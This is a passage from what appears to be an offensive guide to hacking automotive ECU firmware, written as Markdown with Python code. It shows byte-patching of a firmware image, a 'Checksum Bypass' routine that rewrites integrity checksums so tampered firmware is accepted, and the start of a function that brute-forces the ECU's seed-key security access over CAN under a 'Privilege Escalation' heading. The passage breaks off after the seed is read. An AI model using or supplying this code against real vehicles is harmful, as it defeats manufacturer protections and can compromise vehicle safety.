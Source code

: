 ```python
    },
    {
        'offset': 0x9000,
        'old': b'\xBE\xEF',
        'new': b'\x12\x34'  # Change constant
    }
]

apply_firmware_patch('firmware.bin', patches)
```

#### Checksum Bypass
```python
def fix_firmware_checksum(firmware_path):
    """Recalculate and fix firmware checksum"""
    
    with open(firmware_path, 'rb') as f:
        firmware = bytearray(f.read())
    
    # Common checksum locations (vary by manufacturer)
    checksum_locations = [
        {'start': 0x0000, 'end': 0x7FFC, 'checksum_addr': 0x7FFC},
        {'start': 0x8000, 'end': 0xFFFC, 'checksum_addr': 0xFFFC},
    ]
    
    for location in checksum_locations:
        start = location['start']
        end = location['end']
        checksum_addr = location['checksum_addr']
        
        # Calculate checksum (example: simple sum)
        data = firmware[start:end]
        checksum = sum(data) & 0xFFFFFFFF
        
        # Update checksum in firmware
        firmware[checksum_addr:checksum_addr+4] = checksum.to_bytes(4, 'big')
        
        print(f"Updated checksum at {checksum_addr:08X}: {checksum:08X}")
    
    with open(firmware_path, 'wb') as f:
        f.write(firmware)
```

### Privilege Escalation

#### Security Access Bypass
```python
def brute_force_security_key(bus, ecu_id, max_attempts=10):
    """Attempt to brute force ECU security key"""
    
    # Request seed
    seed_request = can.Message(arbitration_id=ecu_id, data=[0x27, 0x01])
    bus.send(seed_request)
    
    response = bus.recv(timeout=1.0)
    if not response or response.data[0] == 0x7F:
        print("Failed to get seed")
        return False
    
    # Extract seed from response
    seed = int.from_bytes(response.data[2:], 'big')
    print(f"Received seed: {seed:04X}")
    
```